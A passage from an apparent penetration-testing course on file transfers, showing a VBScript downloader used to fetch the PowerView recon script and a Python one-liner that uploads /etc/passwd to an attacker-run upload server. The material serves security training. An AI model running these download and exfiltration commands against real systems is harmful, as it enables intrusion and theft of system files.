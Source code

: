 Code: vbscript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

#### Download a File Using VBScript and cscript.exe

Transferring Files with Code

```cmd
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

___

## Upload Operations using Python3

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

#### Starting the Python uploadserver Module

Transferring Files with Code

```shell
6165@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Uploading a File Using a Python One-liner

Transferring Files with Code

```shell
6165@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
